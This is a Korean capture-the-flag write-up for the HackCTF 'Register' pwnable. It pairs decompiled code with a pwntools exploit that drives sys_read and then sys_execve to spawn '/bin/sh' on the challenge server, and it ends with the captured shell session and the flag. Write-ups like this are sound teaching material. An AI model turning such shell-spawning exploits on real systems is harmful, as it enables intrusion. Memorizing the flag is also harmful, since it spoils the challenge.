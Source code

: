 #Register

---

우선 `main()`을 보자.
<pre>
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  alarm(5u);
  setvbuf(stdout, 0LL, 2, 0LL);
  build();
}
</pre>

5초마다 alarm을 보낸다. `build()`를 살펴보자.

<pre>
void __noreturn build()
{
  __int64 v0; // [rsp+0h] [rbp-40h]
  __int64 v1; // [rsp+8h] [rbp-38h]
  __int64 v2; // [rsp+10h] [rbp-30h]
  __int64 v3; // [rsp+18h] [rbp-28h]
  __int64 v4; // [rsp+20h] [rbp-20h]
  __int64 v5; // [rsp+28h] [rbp-18h]
  __int64 v6; // [rsp+30h] [rbp-10h]
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  signal(14, (__sighandler_t)handler);
  while ( 1 )
  {
    do
    {
      get_obj(&v0);
      obj = v0;
      qword_6010A8 = v1;
      qword_6010B0 = v2;
      qword_6010B8 = v3;
      qword_6010C0 = v4;
      qword_6010C8 = v5;
      qword_6010D0 = v6;
    }
    while ( (unsigned int)validate_syscall_obj(v0) );
    raise(14);
  }
}</pre>

이 함수 외에도 다른 많은 함수들이 있지만 동작은 간단하다.

`signal()`에 의해서 SYSALARM이 호출될 때 마다 `handler()`가 실행된다. 그리고 레지스터의 값을 받아서 syscall을 실행한다.

때문에 5초마다 실행되는 SYSALARM에 맞춰서 레지스터의 값을 잘 조작하여 syscall을 이용하여 execve('/bin/sh',0,0)을 실행시키면 되는 간단한 문제다.

다음과 같이 익스할 것이다.

(1) sys\_read를 통해서 data영역에 "/bin/sh\x00'을 쓴다. <br>
(2) sys_execve를 통해서 쉘을 실행시킨다.

다음과 같이 익스코드를 짤 수 있었다.

<pre>
from pwn import*

#p=process('./register')
p=remote('ctf.j0n9hyun.xyz', 3026)

data=6295656

p.recvuntil('RAX: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('RDI: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('RSI: ')
p.sendline('6295656')
sleep(0.01)
p.recvuntil('RDX: ')
p.sendline('8')
sleep(0.01)
p.recvuntil('RCX: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('R8: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('R9: ')
p.sendline('0')
sleep(0.01)

p.send('/bin/sh\x00')


p.recvuntil('RAX: ')
p.sendline('59')
sleep(0.01)
p.recvuntil('RDI: ')
p.sendline('6295656')
sleep(0.01)
p.recvuntil('RSI: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('RDX: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('RCX: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('R8: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('R9: ')
p.sendline('0')

p.interactive()
</pre>

중간에 sleep을 넣은 것은 로컬에서는 상관없었지만 서버에서는 주고받는 인자값의 순서가 뒤엉켜서 원하는대로 작동되지 않을 수도 있기 때문이다.

다음 파이썬 코드를 실행시키고 나서 입력까지 5초정도를 기다려주어야 한다. 5초 이후에 SYSALARM이 호출되기 때문이다.

flag는 다음과 같다. 

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/27.Register$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3026: Done
[*] Switching to interactive mode
RAX: $ whoami
attack
$ cat flag
HackCTF{6316964770251056468501091137477179868692}
</pre>


**flag: HackCTF{6316964770251056468501091137477179868692}**